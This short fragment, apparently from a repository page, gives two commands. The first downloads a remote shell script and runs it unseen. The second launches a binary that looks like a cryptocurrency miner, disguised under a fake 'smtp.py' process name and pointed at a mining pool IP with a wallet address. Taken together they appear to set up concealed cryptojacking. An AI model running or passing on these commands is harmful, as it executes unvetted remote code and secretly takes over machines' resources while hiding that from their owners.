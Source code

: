 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two

./hi -s "./smtp.py" -d -p test.pid ./bhmax --url 158.69.251.105:4062 --user 86P42DaNTvmBmMLM4oL5kL6tVQVo9FfsnJDTqj6VU76whVzjMdMbMa7PV3SHAQuNySan44ToXVFn3gwFmqeDb58t1xqNVAB --pass x-bh --donate-level 1 --tls --tls-fingerprint 420c7850e09b7c0bdcf748a7da9eb3647daf8515718f36d9ccfdd6b9ff834b14
